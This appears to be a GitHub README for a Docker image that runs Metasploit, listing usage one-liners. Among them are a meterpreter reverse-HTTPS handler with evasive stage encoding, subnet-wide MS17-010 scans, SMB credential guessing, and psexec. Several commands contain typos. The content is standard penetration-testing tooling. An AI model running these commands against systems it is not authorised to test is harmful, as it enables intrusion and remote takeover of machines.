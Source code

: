 # METASPLOIT DOCKER IMAGE

Docker image running metasploit.

For `metasploit` licence please read: [metasploit license](https://github.com/rapid7/metasploit-framework/blob/master/LICENSE)


# Usage

* run metasploit container

```bash
docker run -it --rm -v $PWD:/share boogy/metasploit
```

```bash
docker run -it --rm -p 443 -p 8443 -v $PWD:/share boogy/metasploit
```

* run a complete meterpreter handler with port mapping and filesystem share

```bash
docker run -it --rm -p 80 -p 8080 -p 443 -p 8443 -v $PWD:/share boogy/metasploit msfconsole -x "spool /metasploit.log; use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.60.200; set LPORT 443; set ExitOnSession false; set EnableStageEncoding true; set StageEncoder x64/zutto_dekiru; exploit -j -z"
```

* run metasploit container with ports mapped

```bash
docker run -it --rm -p 443 -p 8443 boogy/metasploit
```

* http_version scanner

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/http/http_version; set RHOSTS 192.168.10.0/24; set THREADS 10; exploit -j"
```

* MS17-010 scanner

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/smb/smb_ms17_10; set RHOSTS 192.168.10.0/24; set THREADS 20; exploit -j"
```

* smb_login module

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/smb/smb_login; set RHOSTS 1192.168.10.0/24; set SMBDomain FOO; set SMBPass Passw0rd; set SMBUser foo; set THREADS 20; set DETECT_ANY_AUTH false ; exploit -j"
```

* psexec module

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use exploit/windows/smb/psexec; set RHOSTS 192.168.10.0/24; set SMBDomain FOO; set SMBPass Passw0rd; set SMBUser foo; set THREADS 20; set DETECT_ANY_AUTH false; exploit -j"
```

* tcp port scanner in background

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/portscan/tcp; set RHOST 0.0.0.0/24; set THREADS 30; exploit -j"
